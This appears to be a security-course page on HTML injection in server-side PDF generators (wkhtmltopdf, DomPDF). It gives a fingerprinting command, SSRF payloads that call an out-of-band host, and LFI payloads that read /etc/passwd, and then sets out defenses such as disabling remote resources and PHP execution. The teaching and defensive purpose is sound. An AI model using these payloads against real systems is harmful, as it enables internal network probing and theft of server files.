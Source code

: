 

PDF Generation Vulnerabilities
Determining the PDF Generation Library
Code: bash

```
$ exiftool invoice.pdf 
<SNIP>
Creator                         : wkhtmltopdf 0.12.6.1
Producer                        : Qt 4.8.7
<SNIP>
Server-Side Request Forgery (SSRF) Payloads
Code: html
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2">
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
Local File Inclusion (LFI) Payloads
Code: html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```


Prevention of PDF Generation Vulnerabilities
After discussing different ways to exploit HTML injection vulnerabilities in PDF generation libraries, let us discuss ways to prevent these types of vulnerabilities.

Insecure Configurations
Many of the vulnerabilities we discussed in the previous sections result from the improper configuration of PDF generation libraries. There are many cases where the default settings of these libraries are insecure. While many of them have been discovered and fixed, we should not rely on the security of the default settings. Thus, reading the documentation, stepping through the configuration file, and configuring the PDF generation library according to our needs are all essential. For instance, many PDF generation libraries default the configuration to allow access to external resources. Setting this option to false effectively prevents SSRF vulnerabilities. In the DomPDf library, this option is called enable_remote.

In some libraries, there are other configuration options that enable the execution of JavaScript and even PHP code on the server. While using features like these might be helpful for the dynamic generation of PDF files, they are also extremely dangerous, as the injection of PHP code can lead to remote code execution (RCE). For example, the DomPDF library has a configuration option called isPhpEnabled that enables PHP code execution; this option should be disabled because it's a security risk.

Generally, most libraries provide security best practices that we should follow when using them. For instance, here are security best practices for DomPDF.

Prevention
All vulnerabilities discussed previously result from user-supplied HTML tags being used as input to the PDF generation library. A web application can prevent these vulnerabilities by disallowing HTML tags in the user input. This can be achieved by HTML-entity encoding the user input, for example, by using the htmlentities function in PHP. htmlentities will convert all applicable characters to HTML entities, as in < becoming &lt; and > becoming &gt;, making it impossible to inject any HTML tags, therefore preventing security issues.

However, in many cases, this mitigation might be overly restrictive as it may be desired for the user to be able to inject certain style elements, such as bold or italic text, or resources, such as images. In that case, the user must be able to insert HTML tags into the PDF generation input. We can mitigate the vulnerabilities we discussed by configuring the PDF generation library options properly by taking into consideration security all security problems. At the very least, we need to ensure the following settings are properly configured:

JavaScript code should not be executed under any circumstances
Access to local files should be disallowed
Access to external resources should be disallowed or limited if it is required


In many cases, the HTML code relies on external resources such as images and stylesheets. If they are part of the template, the web application should fetch these resources in advance and store them locally. We can then edit the HTML elements to reference the local copy of these resources such that no external resources are loaded. This allows us to set strict firewall rules that prevent all outgoing requests by the web server running the web application. This will prevent SSRF vulnerabilities entirely. However, if users need to be able to load external resources, it is recommended to implement a whitelist approach of external endpoints that resources can be loaded from. This prevents the exploitation of SSRF vulnerabilities by blocking access to the internal network.
